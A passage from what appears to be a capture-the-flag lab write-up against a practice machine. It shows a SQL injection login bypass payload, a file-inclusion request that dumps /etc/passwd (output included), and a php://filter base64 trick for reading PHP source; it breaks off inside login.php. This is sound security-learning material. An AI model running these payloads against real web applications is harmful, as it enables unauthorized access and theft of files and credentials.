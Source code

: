 Results:
```sh
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 59ms]
```

## Exploitation

### Foothold
1. Since we don't have many information to work with, we can try to manually explore the app. First stop is the login page where I tried a couple of payloads and one SQLi payload worked to bypass the login `test'||1=1;-- -`
2. With login bypassed we land on a secret panel like `http://10.10.213.211/secret-script.php?file=supersecretadminpanel.html`
3. First thing I've tried was to replace the loaded HTML with a server path like `/etc/passwd` similar to `http://10.10.213.211/secret-script.php?file=/etc/passwd` and worked:
```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
comte:x:1000:1000:comte:/home/comte:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```
4. Further investigating the app I landed on `Orders` page where the PHP filter is used `http://10.10.213.211/secret-script.php?file=php://filter/resource=orders.html`
5. Using the base64 encoding with filter we can exfiltrate the content of the PHP file; for this we can use the filter with `http://10.10.213.211/secret-script.php?file=php://filter/read=convert.base64-encode/resource=login.php` to check the content and validations for login page
6. This payload will return the base64 encoded version of `login.php` page (we can use the Burp Suite Decoder, or Linux based tools to decode):
```sh
<?php
// Replace these with your database credentials
$servername = "localhost";
```